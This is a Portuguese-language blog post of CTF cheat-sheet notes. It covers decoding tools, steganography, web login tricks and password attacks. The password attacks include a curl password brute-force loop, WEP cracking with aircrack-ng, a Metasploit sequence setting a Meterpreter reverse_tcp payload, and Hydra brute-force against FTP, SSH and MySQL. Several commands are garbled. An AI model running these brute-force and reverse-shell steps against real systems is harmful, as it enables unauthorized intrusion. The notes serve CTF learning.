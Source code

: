 +++
title =  "CTF help"
date =   2020-06-25T14:00:00Z
draft = false
+++

Estas são algumas ferramentas e tecnicas para ajudar em ctfs.

##### CRYPTOGRAFIA:
Para criptografia temos algumas técnicas por terminal interessantes, como:
```bash
$ cifra | base64 -d
$ cifra | base32 -d
$ 00000000: cifra | xxd -r -p
```
Também existem sites para ajudar:
[cryptii][cryptii] | tem várias ferramentas prontas para o uso 
[cryptii hexadécimal][cryptii-hex] | para hexadécimal 
[identificar uma hash][ident-hash] | identificar hash
[hash md5][hashmd5] [hash toolkit][hashtoolkit]
[morse][morsecode] | para codigo morse
[hash killer][hashkiller]
[QR-CODE][qr-code] | para qr-code
https://www.dcode.fr/tools-list
https://codebeautify.org/
[cifra de Virginerie][cipher-virginer] | imagem para cifra de virginerie
	

##### REVERSE ENGENNIRING:

ltrace para reverse
gdb program -> disas main

##### FORENSE:
Para forense existe por exemplo o steghide como programa:
```bash
steghide extract -sf img.jpg
steghide foremost -i arquivo
steghide data-text-file contains "flag" -> pcap foremost -d jpeg -i arquivo.pcap
```
[para imagem sobre posta][steganography] 
http://exif.regex.info/exif.cgi  - exif em fotos ou exif imagem

https://futureboy.us/stegano/decinput.html
hexdump -C imagem.jpg
strings imagem.jpg
https://md5decrypt.net/en/  

##### WEB:

ERRO DE FLASH: http://www.showmycode.com/
/robots.txt
    /checklogin.php.bkp
    inspecionar elemento - copy url login=true - curl -X POST urlcomlogin=true -- insecure --data "username=flag&password=flag"
    while read pass;do echo $pass;curl -X POST urlcomlogin=true -- insecure --data "username=flag&password=flag" | grep shellter{;done < /usr/share/wordlists/

aircrack-ng arquivo.pcap - para pegar o macaddress
airdecap-ng -w macaddress arquivo.pcap - WEP key em hexadecimal
wireshark arquivor-dec.pcap
data-text-lines contains "post"
tcp stream

https://diegoandrade.com.br/ferramentas.html

##### SENHAS:

crunch [size min] [size max] caracteres
crunch 8 8 abcdefghijk1234567 -t(template) [% - digito][@ - caracter][nome fixo] -o(saida) dicionario.txt

METASPLOIT:
db_status
db_nmap
search falha
use /../payload
show options
set LHOST ipalvo
set LPORT porta
set payload /windows/meterpreter/reverse_tcp
show options
set LHOST ipinvasor
exploit
sessions -l
sessions -i [num]
?

##### HYDRA:

hydra –L /tmp/wordlist.txt -P /tmp/wordlist.txt 192.168.0.101 ftp
hydra –L /tmp/wordlist.txt -P /tmp/wordlist.txt 192.168.0.101 ssh
hydra –L /tmp/wordlist.txt -P /tmp/wordlist.txt 192.168.0.101 mysql
hydra –l admin -P /tmp/wordlist.txt 192.168.0.101 ftp

[cryptii]: https://cryptii.com/
[cryptii-hex]: https://cryptii.com/pipes/hex-decoder
[ident-hash]: http://endoffile.umforum.net/h4-identifcador-hash
[hashmd5]: https://md5hashing.net/
[morsecode]: https://morsecode.scphillips.com/translator.html
[hashkiller]: https://hashkiller.co.uk/
[qr-code]: https://webqr.com/
[hashtoolkit]: https://hashtoolkit.com/
[cipher-virginer]: https://upload.wikimedia.org/wikipedia/commons/thumb/9/9a/Vigen%C3%A8re_square_shading.svg/320px-Vigen%C3%A8re_square_shading.svg.png
[steganography]: https://incoherency.co.uk/image-steganography/ 
